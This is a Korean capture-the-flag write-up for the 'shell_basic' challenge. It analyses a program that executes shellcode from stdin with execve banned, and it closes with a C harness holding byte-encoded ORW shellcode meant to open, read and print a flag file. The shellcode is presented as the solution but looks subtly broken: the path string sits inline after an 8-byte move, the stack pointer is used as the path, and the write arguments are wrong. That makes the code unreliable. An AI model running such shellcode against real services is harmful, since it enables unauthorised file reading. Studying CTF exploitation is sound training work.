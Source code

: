 # 문제
입력한 셸코드를 실행하는 프로그램이 서비스로 등록되어 작동하고 있습니다.

main 함수가 아닌 다른 함수들은 execve, execveat 시스템 콜을 사용하지 못하도록 하며, 풀이와 관련이 없는 함수입니다.

flag 파일의 위치와 이름은 /home/shell_basic/flag_name_is_loooooong입니다.
감 잡기 어려우신 분들은 아래 코드를 가지고 먼저 연습해보세요!

플래그 형식은 DH{...} 입니다. DH{와 }도 모두 포함하여 인증해야 합니다.


# 주어진 파일에서 main 함수를 확인
```
void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);    // 쉘코드를 저장하고 실행하는 공간
  void (*sc)();
  
  init();
  
  banned_execve();       // execve쉘코드 차단

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

  1) 이 코드는 문제 풀이에 직접적으로 사용되는 코드가 아니라, 문제 풀이의 환경과 제약 사항을 이해하는 데 도움을 주는 코드이다.
    
  2) 우리가 알 수 있는 정보
```
char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
```
- 메모리 할당 정보
   > mmap()을 통해 읽기, 쓰기, 실행 권한이 모두 부여된 메모리 페이지가 할당된다.
   > **우리가 쉘코드를 이용해 문제를 풀 수 있는 환경이 보장된다는 말이다!**

 - 크기 제한
   > 할당된 메모리 크기는 0x1000 이다.
   > **쉘코드의 크기는 4096바이트 이하로 작성해야 한다.**

```
banned_execve();
```
- execve 쉘코드 사용이 금지된다.
  > **orw쉘코드를 사용해 파일을 읽어야 한다.**

```
read(0, shellcode, 0x1000);
sc = (void *)shellcode;
sc();
```
- 프로그램은 표준 입력을 통해 쉘코드를 입력받아 할당된 메모리에 저장한다는 의미. 그래서 **우리는 직접 작성한 쉘코드를 표준 입력으로 제공하면 된다.**
  > 어떻게 알 수 있는가?) read() 시스템 콜의 첫 번쨰 인자로 들어간 0이 표준 입력을 나타낸다.



# 이제 orw쉘코드를 작성하자.
```
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = 
"\x48\x31\xc0\x48\xbf\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x65\x6c\x6c\x5f"
"\x62\x61\x73\x69\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x61\x6d\x65\x5f\x69"
"\x73\x5f\x6c\x6f\x6f\x6f\x6f\x6f\x6e\x67\x00\x48\x89\xe7\x48\x31\xf6"
"\x48\x31\xd2\xb0\x02\x0f\x05\x48\x89\xc7\x48\x31\xc0\x48\x89\xe6\xb2"
"\x80\x0f\x05\x48\x31\xff\x48\x89\xc6\xb0\x01\x0f\x05";

int main() {
    printf("Running shellcode...\n");
    void (*sc)() = (void (*)())shellcode;
    sc();
    return 0;
}
```
1) 이 코드는 /home/shell_basic/flag_name_is_loooooong 파일을 열 수 있도록 어셈블리어로 작성된 ORW shellcode를 C 언어 스켈레톤 코드에 이식한 후, 바이트 코드로 변환한 결과물이다.


     
